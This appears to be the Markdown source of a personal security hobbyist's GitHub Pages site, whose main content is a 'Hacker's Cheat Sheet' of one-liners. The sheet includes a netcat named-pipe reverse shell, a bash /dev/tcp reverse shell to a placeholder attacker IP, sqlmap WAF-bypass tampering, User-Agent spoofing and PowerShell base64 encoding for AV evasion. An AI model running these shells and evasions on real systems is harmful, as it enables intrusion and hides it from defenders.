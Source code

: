 ```yaml
---
layout: default
title: Home
---
```


# 🖥️ Welcome to WebPro's Hacker Space 🖥️

<img class="moving-mascot" src="https://github.githubassets.com/assets/mona-loading-default-c3c7aad1282f.gif" alt="Hacker Mascot" width="100" style="margin: 10px;">

<style>
    @keyframes moveAcross {
        from {
            right: -100px; /* Start off-screen on the right */
        }
        to {
            right: 100%; /* Move all the way to the left */
        }
    }

    .moving-mascot {
        position: absolute;
        top: 1000px; /* Adjust as needed */
        right: -100px; /* Start off the right side of the page */
        animation: moveAcross 20s linear infinite; /* Moves across the screen in 5 seconds */
    }
</style>

Welcome to the dark side of the internet, where we explore cybersecurity, vulnerabilities and even cutting-edge technology.

---

## 🚀 Latest Projects 🚀

Here are some of the cool projects I’ve been working on:

- 🛠️ [HiddenSecTools](https://github.com/webpro255/HiddenSecTools) – A repository of hidden security tools.
- 🔍 [EventViewer-LogHunting](https://github.com/webpro255/EventViewer-LogHunting) – Hunt for security-relevant logs with Windows Event Viewer.
- 🛡️ [WordPress Forensics](https://github.com/webpro255/wordpress-forensics-tool) – Forensics tools specifically for WordPress investigations.
- 📊 [ELK-SOC-Tips](https://github.com/webpro255/ELK-SOC-Tips) – Tips and techniques for setting up an ELK stack in a SOC environment.
- 📡 [Network Traffic Visualization](https://github.com/webpro255/network-traffic-visualization) – Visualize network traffic in a clear and concise way.
- 🔧 [IT Support Scripts](https://github.com/webpro255/it-support-scripts) – A collection of useful scripts for IT support.
- 🔐 [IAM Policy Simulator](https://github.com/webpro255/iam-policy-simulator) – A project to simulate IAM policies for cloud security.
- 🔍 [Network Scanning Tools](https://github.com/webpro255/network-scanning-tools) – A collection of tools for network scanning and reconnaissance.
- 📈 [Network Anomaly Detection](https://github.com/webpro255/network-anomaly-detection) – Detect network anomalies using these tools and techniques.

---

## 👨‍💻 About Me 👨‍💻

I am WebPro, passionate about cybersecurity, ethical hacking, and building tools to create a more secure future. I love experimenting with new technologies, finding vulnerabilities and sharing my knowledge with the community.

---
## 🕵️ Cybersecurity Challenge 🕵️

Want to test your skills? Try to crack the password in our **[Password Cracker Game](./cyber-game.html)** and see how quickly you can break in!

## 🎮 Play another Game 🎮

Feeling like taking a break? Try your hand at the **[Guess the Number Game](./game.html)** and see if you can guess the correct number!

---
## 🧠 Hacker's Cheat Sheet 🧠

Only true hackers will appreciate these gems—cutting-edge tips and tricks that can elevate your penetration testing and ethical hacking skills. 

### 🔥 1. Command Line Kung Fu

- **List all open ports** (with process info) on Linux:
  ```bash
  sudo netstat -tuln -p
  ```
> Quickly see what's open on your system without needing fancy tools.

- Find all hidden files on a Linux machine:
  ```
  find / -name ".*" -type f
  ```
> Great for uncovering hidden configurations or malicious scripts.

- Fast directory scanning with FFUF:
  ```
  ffuf -w /path/to/wordlist.txt -u https://example.com/FUZZ -e .php,.html,.txt -o output.txt
  ```
> Quick and powerful fuzzing to discover hidden directories.

### 🚀 2. Hidden Gems in Wireshark

- Capture only HTTP GET requests:

```
http.request.method == "GET"
```
> Skip the noise and capture just the GET requests to hunt for interesting activity.

- Filter for suspicious DNS activity:
  ```
  dns.qry.name == "evil.com"
  ```
> Target specific DNS queries to detect if someone's reaching out to malicious domains.

### 🔒 3. Bypass Techniques

- **Bypass WAF using SQLMap with tamper scripts**:
    ```bash
    sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment --level=5 --risk=3
    ```
    > Get around pesky WAFs with a tamper script and crank up the aggression.

- **Custom User-Agent to fool detection systems**:
    ```bash
    curl -A "Googlebot/2.1 (+http://www.google.com/bot.html)" http://target.com
    ```
    > Impersonate a search engine crawler to bypass access restrictions.

### 🛡️ 4. Advanced Reverse Shells

- **Obfuscated Netcat reverse shell**:
    ```bash
    mkfifo /tmp/lolpipe; nc 0</tmp/lolpipe | /bin/sh >/tmp/lolpipe 2>&1; rm /tmp/lolpipe
    ```
    > Use named pipes to create stealthier reverse shells, harder to detect by basic monitoring.

- **Bash TCP reverse shell** (for when Netcat isn’t available):
    ```bash
    bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1
    ```
    > Minimal footprint, effective on many Unix-based systems.

### 💻 5. Stealth Techniques

- **Avoid logging by executing commands in memory (Linux)**:
    ```bash
    exec /bin/bash 0</dev/null 2>/dev/null
    ```
    > Run commands in a way that avoids leaving traces in `/var/log` files.

- **Evade AV detection with PowerShell base64 encoding**:
    ```bash
    powershell.exe -EncodedCommand <Base64 Encoded Command>
    ```
    > Hide your PowerShell commands by encoding them in Base64, bypassing some AV detection.

### 🛠️ 6. Tools You Might Not Know (But Should)

- [**Obsidian**](https://obsidian.md/) – A tool for creating encrypted vaults of notes and penetration testing playbooks.
- [**Chaos Reader**](http://chaosreader.sourceforge.net/) – Parse, analyze, and extract files from packet capture (.pcap) files.
- [**LinEnum**](https://github.com/rebootuser/LinEnum) – A Linux enumeration script to quickly find privilege escalation vectors.

### 🎯 7. Fuzzing on Steroids

- **Fuzzing APIs with POST requests using FFUF**:
    ```bash
    ffuf -w wordlist.txt -X POST -d "parameter1=value&FUZZ=value" -u https://target.com/api/endpoint -o output.json
    ```
    > Quickly find API vulnerabilities by fuzzing POST request bodies.

- **Fuzzing JSON APIs with AFL (American Fuzzy Lop)**:
    ```bash
    afl-fuzz -i input/ -o output/ -- ./target_binary @@
    ```
    > Use AFL to find memory corruption issues in JSON parsers, or other binary targets.

💡 **Bonus Tip**: Always remember to document your findings in detail. Hacking without reporting is just half the work. 😉


## 🤝 Connect with Me 🤝

Follow me on [GitHub](https://github.com/webpro255) for the latest updates, tools, and resources!


